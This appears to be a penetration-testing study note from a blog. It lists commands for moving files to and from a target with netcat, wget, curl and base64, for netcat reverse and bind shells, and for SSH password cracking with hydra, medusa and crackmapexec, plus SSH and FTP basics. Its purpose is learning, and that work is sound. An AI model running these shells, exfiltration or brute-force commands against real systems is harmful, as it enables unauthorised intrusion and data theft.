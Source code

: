 ```yaml
---
title: "Network Penetration Testing Fundamental 2"
tags:
    - Enumeration
    - Dorks
    - Wireshark
date: "2024-08-01"
thumbnail: "/assets/img/thumbnail/networkbasics.jpeg"
bookmark: true
---
```

# Description
---
# File Transfer (Linux)
1. Netcat
From target to my machine
In my machine:
```bash
nc -nvlp 8082 > backup
```
In the target:
```bash
nc [ip my machine] 8082 < /usr/local/bin/backup
```
From my machine to target
In the target:
```bash
nc -nvlp 8082 > backup
```
In my machine:
```bash
nc [ip my machine] 8082 < /usr/local/bin/backup
```
2. Wget
From my machine to target
In my machine:
```bash
python3 -m http.server port
```
In the target:
```bash
wget http://my_ip:port/test.py
```
3. Curl
From my machine to target
In my machine:
```bash
python3 -m http.server port
```
In the target:
```bash
curl http://my_ip:port/test.py -o test.py
```
4. Base64
From my machine to target
In my machine:
```bash
cat ‘file.zip' | base64
```
In the target:
```bash
cat base64.txt | base64 -d > file.zip
```
# Shells
1. Reverse Shell
Basic Reverse Shell
    Start listener on Kali
```bash
nc -lvnp 9000
```
    Send reverse shell from victim back to Kali
```bash
nc KALI_IP 9000 -e /bin/sh
```
2. Bind Shell
Basic Bind Shell
    Start bind shell on victim machine
```bash
nc -lvnp 9000 -e /bin/sh
```
    Connect to bind shell from Kali
```bash
nc -nv VICTIM_IP 9000
```
3. Web Shell
Depend on:
    Language
    Server
On Kali:
```bash
/usr/share/webshells
```
# Network Services
SSH (Secure Shell)
1. Basic Usage (login)
```bash
ssh username@10.10.10.10
```
2. Generating a Key Pair
```bash
ssh-keygen
```
3. Key-based Login
```bash
ssh -i keyfile username@10.10.10.10
```
 path to private key file​
```bash
/home/username/.ssh/id_rsa​
```
​ path to public key file​
```bash
/home/username/.ssh/id_rsa.pub​
/home/username/.ssh/authorized_keys
```
4. Password Cracking
```bash
    crackmapexec ssh 10.10.10.10 -u small_user.txt -p pass.txt
    medusa -h 10.10.10.10 -U small_user.txt -P pass.txt -M ssh
    hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh
```
FTP (File Transfer Protocol)
1. Basic Usage (login)
```bash
ftp 10.10.10.10
```
2. Commands
```bash
ftp> ls
ftp> cd foldername
ftp> get filename
ftp> put filename
```
3. Using Binary Mode to Avoid Uploading Corrupted Files
```bash
ftp> binary
```
4. Default Credentials
    `Username: Anonymous`
    `Password: ftp`
---